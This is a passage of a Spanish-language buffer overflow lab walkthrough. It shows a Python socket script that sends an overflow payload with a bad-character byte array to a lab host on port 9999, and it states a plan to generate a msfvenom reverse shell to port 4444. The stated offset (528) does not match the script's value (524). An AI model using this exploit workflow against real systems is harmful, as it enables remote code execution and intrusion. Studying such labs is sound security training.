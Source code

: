 Como vemos el *offset* del *stack* es 528. Es decir a continuación del registro EIP.

Ahora debemos de detectar los *badchars* por lo que generamos un array de *bytes* con `mona` excluyendo el "x00":
![[Pasted image 20240831125606.png]]
![[Pasted image 20240831143815.png]]

Estos bytes serán los que introduzcamos después del valor del EIP. Para hacerlo de forma más fácil hacemos un script de *Python*:
```python
import socket

IP = "192.168.159.137"
PORT = 9999

offset = 524
eip = b'CCCC'
# shellcode = b'BBBB'
shellcode = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
shellcode += b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
shellcode += b"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
shellcode += b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
shellcode += b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
shellcode += b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
shellcode += b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
shellcode += b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

data = b'A'*offset + eip + shellcode

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((IP, PORT))
    s.send(data)
```

Si lo ejecutamos vemos que el valor del ESP es:
![[Pasted image 20240831131008.png]]

Por lo que si utilizamos `mona` para comparar con el *bytearray* original podemos saber si hay algún *badchar*:
![[Pasted image 20240831144128.png]]

Como vemos solo tenemos el `0x00` de *badchar* por lo que podemos generar un *shellcode* para que nos entable una *reverse shell* por el puerto 4444 de la máquina "10.15.12.128" (172.18.0.129) con `msfvenom`:
![[Pasted image 20240831170007.png]]
